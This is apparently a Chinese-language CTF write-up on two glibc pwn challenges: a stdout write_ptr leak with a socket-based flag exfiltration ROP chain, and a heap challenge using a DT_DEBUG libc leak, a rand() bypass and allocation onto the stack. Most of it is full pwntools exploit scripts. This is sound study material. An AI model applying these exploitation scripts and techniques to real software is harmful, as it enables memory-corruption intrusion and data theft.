


原本由于无缓冲模式，stdout->write_ptr 与 stdout->write_base 相等；随后通过单字节修改高位字节，增大 stdout->write_ptr。

从而泄露栈地址和堆地址。

### 绕过标准输出关闭的示例


由于标准输出和标准输入已关闭，此时 open+read 已将 flag 读入内存，接下来需要把 flag 从内存中输出。标准输出关闭后无法重新打开，也无法重定向，因此需要使用 socket 连接本地 socket：新建 socket，连接本地端，再将 flag 写入该连接，从而写到本地服务端 socket。

### 客户端：关闭标准输出

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/socket.h>

#define PORT 8080
#define BUFFER_SIZE 1024

int main() {
    int sock = 0;
    struct sockaddr_in serv_addr;
    char buffer[BUFFER_SIZE] = {0};
    char *message = "flag{zhiyinnitaimei}";

    // 创建socket
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("Socket creation error");
        return -1;
    }

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(PORT);

    // 将IP地址从字符串转换为二进制形式
    if(inet_pton(AF_INET, "127.0.0.1", &serv_addr.sin_addr) <= 0) {
        perror("Invalid address/ Address not supported");
        return -1;
    }

    // 连接到服务器
    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
        perror("Connection Failed");
        return -1;
    }

    // 使用write发送消息
    close(1);
    ssize_t bytes_written = write(sock, message, strlen(message));
    if (bytes_written < 0) {
        perror("Write failed");
        return -1;
    }
    printf("Message sent: %s\n", message);
    printf("Bytes written: %zd\n", bytes_written);

    // 接收服务器的回显
    ssize_t bytes_read = read(sock, buffer, BUFFER_SIZE - 1);
    if (bytes_read < 0) {
        perror("Read failed");
        return -1;
    }
    buffer[bytes_read] = '\0';  // 确保字符串正确终止
    printf("Server echo: %s\n", buffer);
    printf("Bytes read: %zd\n", bytes_read);

    // 关闭socket
    close(sock);

    return 0;
}
```


### 服务端

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/socket.h>


#define PORT 8080
#define BUFFER_SIZE 1024

int main() {
    int server_fd, new_socket;
    struct sockaddr_in address;
    int opt = 1;
    int addrlen = sizeof(address);
    char buffer[BUFFER_SIZE] = {0};

    // 创建socket文件描述符
    if ((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == 0) {
        perror("socket failed");
        exit(EXIT_FAILURE);
    }

    // 设置socket选项
    if (setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR | SO_REUSEPORT, &opt, sizeof(opt))) {
        perror("setsockopt");
        exit(EXIT_FAILURE);
    }

    address.sin_family = AF_INET;
    address.sin_addr.s_addr = INADDR_ANY;
    address.sin_port = htons(PORT);

    // 绑定socket到指定端口
    if (bind(server_fd, (struct sockaddr *)&address, sizeof(address)) < 0) {
        perror("bind failed");
        exit(EXIT_FAILURE);
    }

    // 开始监听连接
    if (listen(server_fd, 3) < 0) {
        perror("listen");
        exit(EXIT_FAILURE);
    }

    printf("Server listening on port %d\n", PORT);

    while(1) {
        // 接受新的连接
        if ((new_socket = accept(server_fd, (struct sockaddr *)&address, (socklen_t*)&addrlen)) < 0) {
            perror("accept");
            exit(EXIT_FAILURE);
        }

        // 读取客户端消息
        int valread = read(new_socket, buffer, BUFFER_SIZE);
        printf("Received: %s\n", buffer);

        // 发送回显消息
        send(new_socket, buffer, strlen(buffer), 0);
        printf("Echo message sent\n");

        close(new_socket);
    }

    return 0;
}


```
### 结果



### 利用脚本
最后在 mmap 的位置写入 ROP 链，再写栈并进行栈迁移（栈地址也大于 0x70FFFFFFFFFFLL），最终运行 ROP 链。

open+read+socker+connect+write

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'


libc = ELF("./libc.so.6")
io = process('./pwn')

stdout_offset = 0x220780+ 0x28+0x1 # change 0x28  _IO_write_ptr


io.sendafter(b"start.",p8(0xbb^0xb8) + p64(stdout_offset))
# sendline result in next while break 
io.recv(5)
data = b''
while(1):
    dd = io.recv(timeout=1)
    if dd==b'':
        break
    data += dd

print("data",data)

libc_base = u64(data[0x5:0xb].ljust(8,b"\x00")) -0x1ca70-0x200000
stack     = u64(data[0x21d:0x21d+6].ljust(8,b"\x00"))

print("libc_base",hex(libc_base))
print("stack",hex(stack))


libc.address = libc_base
libc_rop=ROP(libc)
pop_rax = libc_base+0x0000000000045eb0
pop_rdi = libc_base+0x000000000002a3e5
pop_rsi = libc_base+0x000000000002be51
pop_rdx = libc_base+0x00000000000904a9
leave_ret =libc_base+0x000000000004da83
syscall_ret = libc_rop.find_gadget(['syscall','ret'])[0]

print("pop_rax",hex(pop_rax))
print("pop_rdi",hex(pop_rdi))
print("pop_rsi",hex(pop_rsi))
print("pop_rdx",hex(pop_rdx))
print("leave_ret",hex(leave_ret))
print("syscall_ret",hex(syscall_ret))

def syscall(rax=0, rdi=0, rsi=0, rdx=0):
    pay  = p64(pop_rax) +  p64(rax)
    pay += p64(pop_rdi) +  p64(rdi)
    pay += p64(pop_rsi) +  p64(rsi)
    pay += p64(pop_rdx) +  p64(rdx) * 2
    pay += p64(syscall_ret)
    return pay


def read_(fd, buf, count):  return syscall(0, fd, buf, count)
def write(fd, buf, count): return syscall(1, fd, buf, count)
def open_(filename=0, modes=0, flags=0): return syscall(2, filename, modes, flags)
def socket_(domain=2,TYPE=1,protocol=0): return syscall(0x29,domain, TYPE, protocol)
def connect_(fd=0,addr=0,LEN=0x10): return syscall(0x2a,fd, addr, LEN)

# # 0x0100007f901f0002 ip port v
# def socket(d, t, p):
#     return syscall(0x29, 0x2, 0x1, 0)


cmd = b'./flag\x00'
for i in range(len(cmd)):
    io.send(p8(cmd[i]) + p64(0x100+i))

flag_str_addr =  libc_base - 0x5000 + 0x100


# ## write ip port
cmd = p64(0x0100007f901f0002)
for i in range(len(cmd)):
    io.send(p8(cmd[i]) + p64(0x180+i))


ip_port_addr  = libc_base - 0x5000 + 0x180

# rop
rop  = open_(flag_str_addr, 0,0) # /flag fd =  0
rop += read_(0,flag_str_addr,0x50) # 
rop += socket_() # fd =1 
rop += connect_(1,ip_port_addr, 0x10) # socker connect to socket
rop += write(1,flag_str_addr,0x50)  #  

cmd = rop
for i in range(len(cmd)):
    io.send(p8(cmd[i]) + p64(0x200+i))

gdb.attach(io)
pause()

 #leave stack
ret_stack = stack - 0x120

offset = ret_stack - (libc_base-0x5000)
io.send(p8(0x6b^0x7f) + p64(offset))

ordrbp_pos = stack - 0x128
old_rbp=stack-0x118
offset =ordrbp_pos-(libc_base-0x5000)
newrbp = libc_base - 0x5000 + 0x200 - 8
rop = p64(newrbp ^ old_rbp)

cmd = rop
for i in range(len(cmd)):
    io.send(p8(cmd[i]) + p64(offset+i))

io.sendline(b"")

io.interactive()
```


## TTOCrv_🎲 glibc 2.35


openat+read+write

### 逆向分析

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __int64 buf; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  sandbox_0();
  while ( 1 )
  {
    do
    {
      while ( 1 )
      {
        menu();
        puts("🦐>>>");
        buf = 0LL;
        read(0, &buf, 7uLL);
        if ( buf != '{}\n' )
          break;
        dele();
      }
    }
    while ( buf > (unsigned __int64)'{}\n' );
    if ( buf == 'db\n' )
      break;
    if ( buf <= (unsigned __int64)'db\n' )
    {
      if ( buf == 'bd\n' )
      {
        nouse();                                // no use
      }
      else if ( buf <= (unsigned __int64)'bd\n' )
      {
        if ( buf == 'TF\n' )
        {
          show();
        }
        else if ( buf <= (unsigned __int64)'TF\n' )
        {
          if ( buf == 'PF\n' )
          {
            show_edit_name();
          }
          else if ( buf <= (unsigned __int64)'PF\n' )
          {
            if ( buf == 'H&\n' )
            {
              new();
            }
            else if ( buf == 'NC\n' )
            {
              edit();
            }
          }
        }
      }
    }
  }
  exit(0LL);
}
```


chunk_array 没有清零，导致 double free。


可以在 free 后 show：将每个字节的低四位和高四位分别加上一个基准字符，再输出所得字符。


由于无法清零，这里只能 new 4 次。

释放后可 edit

- 上述 idx 均没有检查，因此存在越界读写。不过，要向负方向越界写，由于只能输入 7 字节，而负数要求最高的第八字节为 ff，需要先调用 nouse 函数并填入 \XFF；再次调用输入函数时，会带上残留的 ff，与原来的 7 字节组成负数。


### 利用 DT_DEBUG 获取各库基址
[通过 DT_DEBUG 获取各库基址](https://rk700.github.io/2015/04/09/dt_debug-read/)

在文件中，DT_DEBUG 的值为 0。实际运行时，DT_DEBUG 的值是指向 struct r_debug 的指针。

```c
struct r_debug
  { 
    int r_version;              /* Version number for this protocol. */

    struct link_map *r_map;     /* Head of the chain of loaded objects. */

    /* This is the address of a function internal to the run-time linker, that will always be called when the linker begins to map in a library or unmap it, and again when the mapping change is complete. The debugger can set a breakpoint at this address if it wants to notice shared object mapping changes. */
    ElfW(Addr) r_brk;
    enum
      { 
        /* This state value describes the mapping change taking place when the `r_brk' address is called. */
        RT_CONSISTENT,          /* Mapping change is complete. */
        RT_ADD,                 /* Beginning to add a new object. */
        RT_DELETE               /* Beginning to remove an object mapping. */
      } r_state;

    ElfW(Addr) r_ldbase;        /* Base address the linker is loaded at. */
  };
```

```c

struct link_map
  {
    /* These first few members are part of the protocol with the debugger. This is the same format used in SVR4. */

    ElfW(Addr) l_addr;          /* Difference between the address in the ELF file and the addresses in memory. */
    char *l_name;               /* Absolute file name object was found in. */
    ElfW(Dyn) *l_ld;            /* Dynamic section of the shared object. */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects. */
  };
```
遍历 link_map 并比较 l_name，找到目标后，即可通过 l_addr 获取该库的基址。当然，前提是二进制文件包含 DT_DEBUG。
先通过 show 泄露 r_debug 地址（ld 地址）。遍历 linkmap 后发现，libc 的 link_map 与泄露的 ld 地址之间存在固定偏移，计算偏移后，下次 show 即可泄露（感觉直接输出 GOT 表来泄露 libc 地址也可以）。

### 随机数
- struct random_data *buf：保存随机数生成器状态的结构体。
- int32_t *result：指向存放所生成随机数的变量的指针。


```c

int
__random_r (struct random_data *buf, int32_t *result)
{
  int32_t *state;

  if (buf == NULL || result == NULL)
    goto fail;

  state = buf->state;

  if (buf->rand_type == TYPE_0)
    {
      int32_t val = ((state[0] * 1103515245U) + 12345U) & 0x7fffffff;
      state[0] = val;
      *result = val;
    }
  else
    {
      int32_t *fptr = buf->fptr;
      int32_t *rptr = buf->rptr;
      int32_t *end_ptr = buf->end_ptr;
      uint32_t val;

      val = *fptr += (uint32_t) *rptr;
      /* Chucking least random bit.  */
      *result = val >> 1;
      ++fptr;
      if (fptr >= end_ptr)
	{
	  fptr = state;
	  ++rptr;
	}
      else
	{
	  ++rptr;
	  if (rptr >= end_ptr)
	    rptr = state;
	}
      buf->fptr = fptr;
      buf->rptr = rptr;
    }
  return 0;

 fail:
  __set_errno (EINVAL);
  return -1;
}

weak_alias (__random_r, random_r)

#define	TYPE_3		3
#define	BREAK_3		128
#define	DEG_3		31
#define	SEP_3		3

static struct random_data unsafe_state =
  {
/* FPTR and RPTR are two pointers into the state info, a front and a rear
   pointer.  These two pointers are always rand_sep places apart, as they
   cycle through the state information.  (Yes, this does mean we could get
   away with just one pointer, but the code for random is more efficient
   this way).  The pointers are left positioned as they would be from the call:
	initstate(1, randtbl, 128);
   (The position of the rear pointer, rptr, is really 0 (as explained above
   in the initialization of randtbl) because the state table pointer is set
   to point to randtbl[1] (as explained below).)  */

    .fptr = &randtbl[SEP_3 + 1],
    .rptr = &randtbl[1],

/* The following things are the pointer to the state information table,
   the type of the current generator, the degree of the current polynomial
   being used, and the separation between the two pointers.
   Note that for efficiency of random, we remember the first location of
   the state information, not the zeroth.  Hence it is valid to access
   state[-1], which is used to store the type of the R.N.G.
   Also, we remember the last location, since this is more efficient than
   indexing every time to find the address of the last element to see if
   the front and rear pointers have wrapped.  */

    .state = &randtbl[1],

    .rand_type = TYPE_3,
    .rand_deg = DEG_3,
    .rand_sep = SEP_3,

    .end_ptr = &randtbl[sizeof (randtbl) / sizeof (randtbl[0])]
};
```
参考汇编和源码后，大致逻辑如下：
1. rand_type 默认为 TYPE_3，因此并非直接使用线性同余生成器产生随机数。
2. 前指针 fptr 所指的值加上后指针 rptr 所指的值，将该值保存为结果，然后前后指针一起向后移动一个位置，返回该结果作为生成的随机数。（fptr 从总计 32 个元素中的第 4 个开始，因此要调用很多次 rand 才可能进入 fptr >= end_ptr 分支；所以当前 edit 可以视为始终进入 else 分支。）

调用一次 rand 后，fptr 和 rptr 都向后移动四字节。

这里泄露 fptr、rptr 和 fptr +0x10 的内容（总计恰好八个）。


### 思路
1. size 为 0x90，释放一个 chunk 后，show 即可泄露堆地址。
2.  将 nouse 填满 \xff，再用负数越界索引 show，泄露 PIE 地址，由此获得 heap_list 的起始地址。

3. 然后用正数越界索引 show，泄露 r_debug 地址（也可以直接从 GOT 泄露 libc 地址）。再根据相对于 r_debug 地址的偏移，获取保存 libc 的 link_map 地址的位置，计算它相对于 PIE 上 heap_list 的偏移，通过 show 泄露 libc 地址。
4. 再根据 libc 地址，得到存放 &randtbl[1+3] 和 &randtbl[1] 的地址（位于 unsafe_state 中，即 &unsafe_state 和 &unsafe_state +8）。然后通过 show 泄露 randtbl 的内容（fptr、rptr 和 fptr +0x10 的内容，每次泄露四个；泄露 environ 中的栈地址也是同理）。也可以用 edit_name 写入 libc 地址，再通过负数越界索引 show 来泄露。
5. 然后根据 rand 函数与泄露的 randtbl，绕过 rand
此后每次 rand，都会将 fptr 与 rptr 当前所指的值相加，存入 fptr 所指的位置。由于 fptr 和 rptr 都不断向数组右侧移动，而最后会向堆的 next 区域输入八字节，此时处理函数循环两次，总共调用八次 rand，fptr 和 rptr 也移动八次。这里 fptr 后面的元素足够，因此最后更新的和会添加到 rptr 后方。

6. 最后，对栈地址进行相应的 rand 处理后再分配，使分配落到栈上。注意，选用的栈地址必须对齐，可以不断尝试更小的值。这里分配到的是 read 函数返回地址所在的栈位置。
. 
. 
这里直接利用 read 函数残留的寄存器，再次进行 read 系统调用，地址就是刚才使用的地址。


随后再次调用 read，先填充并覆盖前面的内容，再从当前 ret 对应的返回地址处开始放置 ROP 链。

### 利用脚本

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'


binary = './pwn'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
#continue
'''.format(**locals())

io = process("./pwn")


def add(idx):
    ru('>>>')
    s(p32(0x48260A))
    ru('idx:')
    s(p8(idx))

def edit(idx,text):
    ru('>>>')
    s(p32(0x4E430A))
    ru('idx:')
    s(p8(idx))
    ru('input: ')
    s(text)

def show(idx):
    ru('>>>')
    s(p32(0x54460A))
    ru('idx:')
    s(p64(idx)[:-1])
   
    ru('ciphertext: ')

def rm(idx):
    ru('>>>')
    s(p32(0x7B7D0A))
    ru('idx:')
    s(p8(idx))

def edit_name(name):
    ru('>>>')
    s(p32(0x50460A))
    ru('>>> ')
    s(p32(0x65646974))
    ru(': ')
    s(name)

def show_name():
    ru('>>>')
    s(p32(0x50460A))
    ru('>>> ')
    s(p32(0x73686F77))

def backdoor(text):
    ru('>>>')
    s(p32(0x62640A))
    s(text)

def rdata():
    ru('=============================\n')
    data = bytes.fromhex(rl().decode().replace(' ',''))
    return data

add(0)
add(1)
rm(0)
rm(1)

show(0)
data = rdata()
key  = uu64(data[:8])
heap_addr = key << 0xC

lss('heap_addr')

backdoor('\xff'*0x38)


show((1<<64)-0x13)

elf_base = uu64(rdata()[:8]) - 16392

heap_list = elf_base + 0x40A0
lss('heap_list')


show(1068)

libc_ptr= uu64((rdata()[8:])) - 0x3c9b8-0x1c8-0x558


lss('libc_ptr')

# leak libc_base
offset = (libc_ptr - heap_list) // 8
show(offset)
libc_base  = uu64((rdata()[:8]))
lss('libc_base')

print("libc",libc_base)


ptr1 = libc_base + 2205792 #   &randtbl[1+3]
ptr2 = libc_base + 2205792 + 8 # &randtbl[1]
lss('ptr1')
lss('ptr2')
offset = (ptr1 - heap_list) // 8

show(offset) # randtbl[1+3] 4 content
data1  = rdata()

offset = (ptr2 - heap_list) // 8

show(offset) # randtbl[1] 4 content
data2  = rdata()


print("data1",data1)
print("data2",data2)

environ = libc_base + libc.sym['environ']
offset = libc_base + 2204196 # unsafe_state
lss('environ')
lss('offset')
name = p64(offset) + p64(environ)[:-2]
edit_name(name)


backdoor('\xff'*0x38)
show((1<<64)-0xC)
data3  = rdata()
print(data3) # randtbl[1+3+4] 4 content


backdoor('\xff'*0x38)
show((1<<64)-0xb)
stack  = uu64(rdata()[:8]) - 8 # name+8

lss('stack')


edx = [ uu32(data1[_:_+4]) for _ in range(0,len(data1),4)]
ecx = [ uu32(data2[_:_+4]) for _ in range(0,len(data2),4)]

tmp = [ uu32(data3[_:_+4]) for _ in range(0,len(data3),4)]
print(ecx)
print(edx)
print(tmp)

edx += tmp


unsafe_state = 0
def me_rand(): # 直接gdb 跟进 rand() 看看随机数是怎么生成的，
    global unsafe_state
    i = unsafe_state
    print(ecx)
    print(edx)
    ecx_ = ecx[i]
    edx_ = edx[i]
    eax = ecx_ + edx_
    eax = eax & 0xFFFFFFFF
    print('add',eax)
    ecx.append(1)
    ecx[i+3] = eax
    eax = eax >> 1
    eax = eax & 0xFFFFFFFF
    print(hex(eax))
    unsafe_state += 1
    return eax
#队头自加队尾值，将此值保存为结果，然后队头队尾统一后移一项，再将结果作为生成的随机数返回即可。

def encrypto(eax):
    v5 = me_rand() % 703710
    v6 = me_rand() ^ v5
    v2 = (v6 + me_rand() + v5) & 0xFFFFFFFF
    eax ^= v2 - me_rand()
    return eax

ret_stack = ((stack-0x190)^ key)
low  = encrypto(ret_stack & 0xFFFFFFFF)
high = encrypto(ret_stack >> 32 ) << 32

expdata = high + low

print(expdata)


gdb.attach(io)

edit(1,p64(expdata))

add(2)
add(3)

pause()
rax = libc_base + 0x0000000000045eb0 # pop rax ; ret
rdx = libc_base + 0x000000000011f2e7 # pop rdx ; pop r12 ; ret
rdi = libc_base + 0x2a3e5 # pop rdi ; ret
rsi = libc_base + 0x02be51 # pop rsi ; ret
syscall = libc_base + libc.sym['read'] + 16 # syscall

pay  =  b"a"*0x28
pay += p64(rax) + p64(0)    # 0x38
pay += p64(rdx) + p64(0x1000)*2 # 0x50
pay += p64(syscall)
edit(3,pay)

# #define __NR_openat2 437

flag_addr = stack-0x68

pay  = b'b' * 0x58 #
pay += p64(rax) + p64(0x101) + p64(rdi) + p64(rax) + p64(0x101) + p64(rdi)+p64(0xffffffffffffff9c) + p64(rsi) + p64(flag_addr) + p64(rdx) + p64(0) * 2 + p64(syscall)
pay += p64(rdi) + p64(3) + p64(rsi) + p64(flag_addr) + p64(rdx) + p64(0x100) * 2 + p64(libc_base + libc.sym['read'])
pay += p64(rdi) + p64(1) + p64(rsi) + p64(flag_addr) + p64(rdx) + p64(0x100) * 2 + p64(libc_base + libc.sym['write'])
pay += b'./flag'.ljust(0x8,b'\x00')

sl(pay)
io.interactive()


```



